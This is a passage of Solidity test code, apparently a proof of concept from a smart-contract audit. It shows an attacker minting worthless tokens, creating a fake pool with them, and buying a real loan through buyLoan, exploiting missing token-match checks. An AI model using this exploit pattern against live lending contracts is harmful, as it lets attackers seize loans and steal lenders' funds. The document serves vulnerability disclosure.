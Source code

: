 ```solidity
        lender.startAuction(loans);

        
        // We warp in the middle of the action to be able to purchase the loan
        vm.warp(block.timestamp + 12 hours);

        
        Loan memory loanBefore = lender.getLoanInfo(loanId);

        address attacker = makeAddr("attacker");
        

        // The attacker deploy a fake (valueless) erc20 token
        // that will be used as loanToken and collateralToken for a fake-pool
        // The attacker mint 100_000 ether of those token each and approve the Lending protocol for the max available amount
        TERC20 fakeCollateralToken = new TERC20();
        TERC20 fakeLoanToken = new TERC20();

        vm.startPrank(attacker);
        fakeCollateralToken.mint(attacker, 100_000 ether);
        fakeCollateralToken.approve(address(lender), type(uint256).max);
        fakeLoanToken.mint(attacker, 100_000 ether);
        fakeLoanToken.approve(address(lender), type(uint256).max);
        vm.stopPrank();

        // The attacker create a fake-pool on the platform using those fake token as collateral and loan tokens
        // The `interestRate` is set to 1 (minimum value) to be able to purchase the loan as soon as possible
        // We are not interested anyway in this pool because we just need to be able to purchase the loan without paying
        // anything that has a value. The pool is created by using `1000 ether` of the FAKE loan tokens!
        vm.prank(attacker);
        bytes32 fakePoolId = lender.setPool(Pool({
            lender: attacker,
            loanToken: address(fakeLoanToken),
            collateralToken: address(fakeCollateralToken),
            minLoanSize: 100 ether,
            poolBalance: 1000 ether,
            maxLoanRatio: 2 ether,
            auctionLength: 1, // does not matter but lower is easier is to attack
            interestRate: 1, // does not matter but lower is and easier is to attack
            outstandingLoans: 0
        }));

        Pool memory fakePoolInfoBefore = lender.getPoolInfo(fakePoolId);

        // the attacker purchase the loan with the fake pool
        // the check `pools[poolId].interestRate > currentAuctionRate` is passed because our pool
        // there is no check about newPool.collateralToken == loan.collateralToken
        // there is no check about newPool.loanToken == loan.loanToken
        // After the purchase we will be in this situation
        // loan.lender = attacker
        // loan.interestRate = 1
        // fakePool.poolBalance = 1000 ether of fakeLoanToken - (loan.debt + lenderInterest + protocolInterest)
        // fakePool.outstandingLoans = 0 + (loan.debt + lenderInterest + protocolInterest)
        vm.prank(attacker);
        lender.buyLoan(loanId, fakePoolId);

        
```